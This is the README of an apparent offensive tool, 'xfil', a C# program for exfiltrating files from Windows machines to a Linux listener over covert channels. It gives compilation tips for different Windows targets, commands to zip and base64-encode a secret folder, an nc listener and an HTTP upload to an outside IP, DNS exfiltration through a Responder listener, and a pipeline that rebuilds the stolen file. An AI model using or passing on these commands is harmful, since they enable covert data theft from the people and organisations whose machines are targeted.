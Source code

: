 # xfil
Simple C# program to exfiltrate data/files through covert channels from windows to Linux.

## Compilation
* If you are targeting Windows 7 use *.NET Framework 3.5* when compiling.
* If you are targeting Windows 10 use *.NET Framework 4.0* when compiling. 
* To use the .exe you need the Ionic.zip.dll too, you can use BoxedAPP to merge them into a standalone .exe ( the release .exe is already merged with this .dll)
## Compiled binaries
Check the releases.


## Receive data
### Zip and Encode (REQUIRED)
```bash
# To exfiltrate files or folders you need to zip them and encode the zip in base64
xfil.exe /encode secret_folder secret.zip
```

### HTTP EXFIL
```bash
# Prepare listener to catch the base64
echo -e "HTTP/1.1 200 OK\r\n\r\n<h1>Host is live</h1>" | sudo nc -vl -p 9090
# Windows
xfil.exe /http http://192.168.1.53:9090/ secret.zip.b64
```

### DNS EXFIL
```bash
# Listener with responder
sudo ./responder.py  -i IP/iface
# Windows
xfil.exe /dns listener_ip  file.zip.b64
```

```bash
# After getting the xfil save all of the responder output and then parse it to the final exfiltrated file
cat responder_out.txt | awk -F" " '{print $10}' | awk -F"." '{print $2}' | tr -d '\n' | xxd -r -p | base64 -d >> secret.zip
```

### TO-DO
* Replace base64+hex  with someething more efficient (base32)
* Add DNS exfil **[ DONE ]**
* Add HTTP exfil **[ DONE ]**
* Add base64 encoding **[ DONE ]**
